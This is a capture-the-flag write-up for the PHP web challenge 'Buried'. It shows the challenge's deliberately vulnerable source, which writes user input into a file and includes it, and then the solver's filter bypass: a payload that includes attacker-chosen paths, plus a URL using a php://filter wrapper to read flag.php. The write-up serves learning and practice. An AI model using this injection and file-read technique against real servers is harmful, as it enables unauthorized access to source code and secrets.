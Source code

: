 ## Buried(9 solves, second blood)

```
Flag in flag.php.

link

Author: HERA
```

```php
<?php

show_source(__FILE__);


if (sizeof($_REQUEST)===1 && sizeof($_POST)===1){
    $cmd=$_POST['cmd'];    
    $a=array('!','#','%','&','\*','\+','\/',':','\?','@','\[','\]','\^','`','\{','\|','\}','~','[0-9]');
    if (isset($cmd)){
        if(preg_match('/.*show_source.*\(/i',$cmd)===0 && preg_match('/\"(\s)*show_source(\s)*\"(\s)*;/', $cmd)===0 ){
            if(preg_match_all('/\$([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)(\s)*=/', $cmd, $matches)<=1){
                if(preg_match('/\((.*)(!\.)\)/i', $cmd)===0 && substr_count($cmd, '.')<=1){
                    $exists=0;
                    foreach ($a as $key) {
                        if(preg_match("/(\.)*".$key."(\.)*/",$cmd)){
                            print($key);
                            $exists+=1;
                        }
                    }
                    if($exists===0){

                        if(!(preg_match('~(?:#|//|\/\*)[^\r\n]*|/\*.*?\*/~',$cmd))){
                        $file="./files/".rand().'.php';
                        file_put_contents($file,'<?php '.$cmd.' ?>');
                        include($file);

                    }else{
                        die("How dare u!");
                    }
                }else{
                    die("How dare u!");
                }

                }else{
                    die("How dare u!");
                }


            }else{
                die("How dare u!");
            }


        }else{
            die("How dare u!");
        }

    }else{
        die("How dare u!");
    }
}else{
    die("How dare u!");
}

?>
```

As we can use `a-zA-Z$_;`, I'll try something fun.

And, if we check `phpinfo()`, All the functions were disabled.

The thing we have to know is `$_GET` or `$_POST` is treating as an array in php. So, we can use `foreach` with `$_GET`. But we need to bypass `if (sizeof($_REQUEST)===1 && sizeof($_POST)===1)`. How?

```php
$file="./files/".rand().'.php';
file_put_contents($file,'<?php '.$cmd.' ?>');
```

As the file written in `./files` directory, I can access directly. So, this one will be a method of bypass.

And, I can also leak whole path via `__FILE__`.

So, the payload of mine was

```php
cmd=echo __FILE__;foreach($_GET as $key => $value) include $value;
```

I used `include` for getting file contents. We need to use `php wrapper` because all the functions of PHP were disabled. So, the final payload will be like this

```
http://buried.fword.wtf/files/530964126.php?asd=php://filter/convert.base64-encode/resource=../flag.php
```



This is unintended solution. Intended one was lua exploit.